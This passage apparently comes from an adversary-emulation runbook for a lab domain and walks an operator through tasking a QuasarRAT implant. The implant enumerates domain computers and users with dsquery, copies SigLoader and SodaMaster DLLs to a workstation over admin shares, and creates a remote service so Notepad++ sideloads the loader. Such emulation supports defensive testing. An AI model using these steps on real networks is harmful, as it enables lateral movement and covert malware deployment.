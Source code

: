   ```
  ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 1, "proc_path":"dsquery.exe", "proc_args": "* -filter \"(objectCategory=computer)\" -domain DIGIREVENGE -attr *"}'
  ```

  * Ensure `kimeramon (10.20.20.11)` is listed in the output

  ```
  grep 'Workstation Contractor Bastion' logs.txt -ia
  ```

* Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, execute `dsquery` to enumerate further information on
the users within DIGIREVENGE

  ```
  ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 1, "proc_path":"dsquery.exe", "proc_args": "* -filter \"(&(objectclass=User)(objectCategory=Person))\" -domain DIGIREVENGE -attr *"}'
  ```

* Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, download SigLoader and its necessary components
(SodaMaster version) and move them to the bastion workstation
`kimeramon (10.20.20.11)`. **Wait until each command has returned before
executing the next**.
  * SigLoader layer 1

    ```
    ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 2, "transfer_src": "C:\\menu_pass\\Resources\\payloads\\quasar\\bastion_layer1.dll", "transfer_dst": "\\\\kimeramon.digirevenge.net\\C$\\Program Files\\Notepad++\\VERSION.dll"}'
    ```

  * SigLoader layer 2

    ```
    ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 2, "transfer_src": "C:\\menu_pass\\Resources\\payloads\\quasar\\bastion_layer2.dll", "transfer_dst": "\\\\kimeramon.digirevenge.net\\admin$\\System32\\hkp.dll"}'
    ```

  * SodaMaster

    ```
    ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 2, "transfer_src": "C:\\menu_pass\\Resources\\payloads\\quasar\\sodamaster.dll", "transfer_dst": "\\\\kimeramon.digirevenge.net\\admin$\\System32\\win64_tools.dll"}'
    ```

* Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, remotely create a service on the bastion workstation
`kimeramon (10.20.20.11)` to execute a legitimate binary that will sideload
SigLoader

  ```
  ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"seq": 1, "type": 1, "proc_path": "sc.exe", "proc_args": "\\\\kimeramon.digirevenge.net create Notepad binpath= \"cmd /c \\\"C:\\Program Files\\Notepad++\\notepad++.exe\\\"\" error= ignore start= demand"}'
  ```
